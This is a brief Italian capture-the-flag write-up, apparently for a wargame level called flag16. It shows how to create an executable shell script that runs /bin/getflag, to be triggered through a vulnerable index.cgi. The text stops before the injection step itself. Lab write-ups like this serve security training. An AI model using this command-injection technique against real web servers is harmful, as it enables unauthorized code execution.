

soluzione

Per aggirare il problema del file minuscolo, creiamo uno script bash che conterrà il comando /bin/getflag e lo facciamo eseguire da index.cgi.

1. Creiamo il file SOLUZIONE:
$ touch SOLUZIONE

2. Scriviamo all’interno del file:
$ nano SOLUZIONE

3. Visualizziamo il contenuto:
$ cat SOLUZIONE
#!/bin/sh
/bin/getflag

4. Impostiamo i permessi di esecuzione per flag16:
$ chmod +x SOLUZIONE